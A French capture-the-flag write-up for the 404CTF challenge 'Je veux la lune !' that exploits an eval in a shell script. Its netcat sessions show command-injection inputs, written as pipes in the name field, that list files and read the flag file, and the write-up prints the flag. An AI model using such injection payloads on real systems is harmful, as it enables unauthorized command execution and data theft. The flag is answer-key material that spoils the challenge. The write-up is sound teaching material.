

# Je veux la lune !



Le fichier fourni : [donne_moi_la_lune.sh](donne_moi_la_lune.sh)

Le script recherche les lignes contenant le mot saisi, sans tenir compte de la casse, dans le fichier `informations.txt` (via les options `-wie` du `grep`).

Et en restitue le résultat via un `eval`. On va donc pouvoir réaliser une injection de commande.

Etape 1 : récupération du contenu du fichier `informations.txt`
- saisie = `.*`

```bash
$ nc challenges.404ctf.fr 31215
Bonjour Caligula, ceci est un message de Hélicon. Je sais que les actionnaires de ton entreprise veulent se débarrasser de toi, je me suis donc dépêché de t'obtenir la lune, elle est juste là dans le fichier lune.txt !

En attendant j'ai aussi obtenu des informations sur Cherea, Caesonia, Scipion, Senectus, et Lepidus, de qui veux-tu que je te parle ?
.*
Caligula, tu es le PDG de Imperium Romanum Enterprises, tu devrais le savoir...

Caius c'est toi ! Caligula !

Lepidus est un actionnaire dont tu as licensié le fils, rappelle-toi... Je pense qu'il t'en veut.

Cherea fait partie de ceux qui te comprennent le mieux... Malheureusement il n'a pas l'air de t'apprécier pour autant. J'ai l'impression qu'il fait de tout son possible pour te voir disparaître.

Drusilla est morte, laisse-la reposer en paix.

Caesonia est ta maîtresse ?? Comment as-tu pu l'oublier ?! Tu travailles trop... C'est peut-être ta dernière alliée par les temps qui courent.

Scipion ne t'aimait pas trop initialement à cause de la façon dont tu as traité son père... Mais maintenant il a l'air fasciné par tes idéaux.

Senectus ? C'est le vieil actionnaire que tu ridiculises depuis 3 ans. Il s'est lassé à force.

chlmine ? hihi

De qui d'autre tu veux que je te parle ?
```

Rien de très intéressant.

Etape 2 : vérification de la présence du fameux fichier `lune.txt` dans le répertoire courant
- saisie = `tutu informations.txt | ls *`

```bash
$ nc challenges.404ctf.fr 31215
Bonjour Caligula, ceci est un message de Hélicon. Je sais que les actionnaires de ton entreprise veulent se débarrasser de toi, je me suis donc dépêché de t'obtenir la lune, elle est juste là dans le fichier lune.txt !

En attendant j'ai aussi obtenu des informations sur Cherea, Caesonia, Scipion, Senectus, et Lepidus, de qui veux-tu que je te parle ?
tutu informations.txt | ls *
/app/donne_moi_la_lune.sh: fork: retry: Resource temporarily unavailable
/app/donne_moi_la_lune.sh: fork: retry: Resource temporarily unavailable
donne_moi_la_lune.sh
informations.txt
informations.txt
lune.txt

De qui d'autre tu veux que je te parle ?
```

Le fichier est bien présent.

Etape 3 : affichage du contenu du fichier `lune.txt`
- saisie = `tutu informations.txt | cat lune.txt`

```bash
$ nc challenges.404ctf.fr 31215
Bonjour Caligula, ceci est un message de Hélicon. Je sais que les actionnaires de ton entreprise veulent se débarrasser de toi, je me suis donc dépêché de t'obtenir la lune, elle est juste là dans le fichier lune.txt !

En attendant j'ai aussi obtenu des informations sur Cherea, Caesonia, Scipion, Senectus, et Lepidus, de qui veux-tu que je te parle ?
tutu informations.txt | cat lune.txt
/app/donne_moi_la_lune.sh: fork: retry: Resource temporarily unavailable
/app/donne_moi_la_lune.sh: fork: retry: Resource temporarily unavailable
404CTF{70n_C0EuR_v4_7e_1Ach3R_C41uS}
Caligula, tu es le PDG de Imperium Romanum Enterprises, tu devrais le savoir...

Caius c'est toi ! Caligula !

Lepidus est un actionnaire dont tu as licensié le fils, rappelle-toi... Je pense qu'il t'en veut.

Cherea fait partie de ceux qui te comprennent le mieux... Malheureusement il n'a pas l'air de t'apprécier pour autant. J'ai l'impression qu'il fait de tout son possible pour te voir disparaître.

Drusilla est morte, laisse-la reposer en paix.

Caesonia est ta maîtresse ?? Comment as-tu pu l'oublier ?! Tu travailles trop... C'est peut-être ta dernière alliée par les temps qui courent.

Scipion ne t'aimait pas trop initialement à cause de la façon dont tu as traité son père... Mais maintenant il a l'air fasciné par tes idéaux.

Senectus ? C'est le vieil actionnaire que tu ridiculises depuis 3 ans. Il s'est lassé à force.

chlmine ? hihi
De qui d'autre tu veux que je te parle ?
```

Le flag est donc : `404CTF{70n_C0EuR_v4_7e_1Ach3R_C41uS}`
